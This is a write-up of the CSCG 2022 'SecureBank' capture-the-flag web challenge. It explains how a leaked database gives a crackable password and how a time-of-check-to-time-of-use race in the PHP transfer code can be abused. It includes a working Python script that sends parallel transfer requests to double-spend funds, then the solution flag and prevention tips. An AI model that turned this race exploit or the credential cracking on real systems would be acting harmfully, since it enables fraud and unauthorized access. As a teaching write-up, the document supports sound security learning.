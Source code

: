 # Securebank - Web

| Category | Web       |
| -------- | --------- |
| CTF      | CSCG 2022 |
| Solves   | 15        |
| Points   | 281       |

## Solution

The *SecureBank* website welcomes you with a login screen without any way to create a new account. After looking into the provided source code for a long time, I figured, that we are able to just download the database file under `securebank.challenge.master.cscg.live:31337/bank.db`.

With the help of https://crackstation.net/, I cracked the password for `john` really quickly - `johndoe` – a pretty bad password + no salting.

Now the challenge actually starts. Our objective is, to get more than 25 bucks into John's `Savings Acccount`. The only problem: all of his accounts combined are just 20$, so we have to somehow get more money into the system.

The vulnerability lies in the `includes/transfer.php` file:

1. We are checking, whether the account we transfer from holds enough money

2. We do an action that takes a long time (300_000 hashes)

3. We transfer the money

```php
  $stmt = $db->prepare("SELECT balance FROM accounts WHERE account_number = :source_account_number;");
    $stmt->bindParam(':source_account_number', $_POST["source"], SQLITE3_TEXT);
    $result = $stmt->execute();
    $current_balance = $result->fetchArray(SQLITE3_ASSOC)["balance"];
    // Here we chec, whether the account holds enough money
    if ($current_balance < $amount) {
        return "Insufficient funds";
    }
    $db->close();

    $source_account_number = $_POST["source"];
    $destination_account_number = $_POST["destination"];
      // This takes a long time (in the seconds)
    $timestamp = time();
    $hash = $amount . $source_account_number . $destination_account_number . $timestamp;
    for ($i = 0; $i < 3000000; $i++) {
        $hash = sha1($hash);
    }

    $db = open_db();
    $stmt = $db->prepare("INSERT INTO transactions (amount, source_account_number, destination_account_number, timestamp, hash)
    VALUES (:amount, :source_account_number, :destination_account_number, :timestamp, :hash)");
    $stmt->bindParam(':amount', $amount, SQLITE3_INTEGER);
    $stmt->bindParam(':source_account_number', $source_account_number, SQLITE3_TEXT);
    $stmt->bindParam(':destination_account_number', $destination_account_number, SQLITE3_TEXT);
    $stmt->bindParam(':timestamp', $timestamp, SQLITE3_INTEGER);
    $stmt->bindParam(':hash', $hash, SQLITE3_TEXT);
    $stmt->execute();
    // And here we are actually transferring the money
    $new_balance = $current_balance - $amount;
    $stmt = $db->prepare("UPDATE accounts SET balance=:balance WHERE account_number = :account_number");
    $stmt->bindParam(':balance', $new_balance, SQLITE3_INTEGER);
    $stmt->bindParam(':account_number', $_POST["source"], SQLITE3_TEXT);
    $stmt->execute();
```

This kind of problem is known as **TOCTOU**, or written out *Time of Check to Time of Use*.

So how do we go about exploiting it?

– Just make two quick, subsequent transactions from the same account.

Both will pass the check, since when the second transaction-request arrives, the money is still on the account, and then both will be put onto the savings account, resulting in more than enough money to get the promotion and thereby the flag!
    The only tricky part was the fact, that we have to do this using two different php-sessions, since else some kind of locking will prevent us from abusing the vulnerability, but that is not enough to stop us.

**Be ready for some ugly CTF-Code!**

```python
#!/usr/bin/env python3
import requests
from multiprocessing import Process


def runInParallel(*fns):
    proc = []
    for fn in fns:
        p = Process(target=fn)
        p.start()
        proc.append(p)
    for p in proc:
        p.join()

DOMAIN = "https://SESSION_ID-securebank.challenge.master.cscg.live:31337/"
PHP_SESSID_COOKIE = None

def login():
    r = requests.get(DOMAIN)
    php_sess = r.cookies
    requests.post(DOMAIN,data={"username":"john", "password":"johndoe"},cookies=r.cookies)
    return php_sess

PHP_SESSID_COOKIE = login()

# I want to make two transactions to the same account twice from the same 
# account
def transfer_x_bucks(x,to_cible=True):
    PHP_SESSID_COOKIE = login()
    dst = "EU88SECB00051380017"
    src = "EU42SECB00051380016"

    if not to_cible:
        dst,src = src,dst

    resp = requests.post(DOMAIN+"index.php?page=transfer", cookies=PHP_SESSID_COOKIE, 
             data={"destination":dst, "source":src,"amount":x})
    if "Transaction completed" in resp.text:
        print("Success!")
    else:
        print("Failure!")


normal_func = lambda: transfer_x_bucks(10,True)

runInParallel(normal_func,normal_func,normal_func,normal_func)
```

For this to work, there has to be at least 10 bucks on the transactions account.

If you run the above code and then visit `/promotion`, you are prompted with a sweet, new flag: 

****CSCG{Inf1niteMon3y}****

## How to prevent the Exploitation

1. Don't leak your database to the world (never put it in a publicly visible folder)

2. Use stronger passwords – not `johndoe` if you are `john`

3. Use a lock when doing transactions, so that only transaction may be processed at a time, preventing race conditions
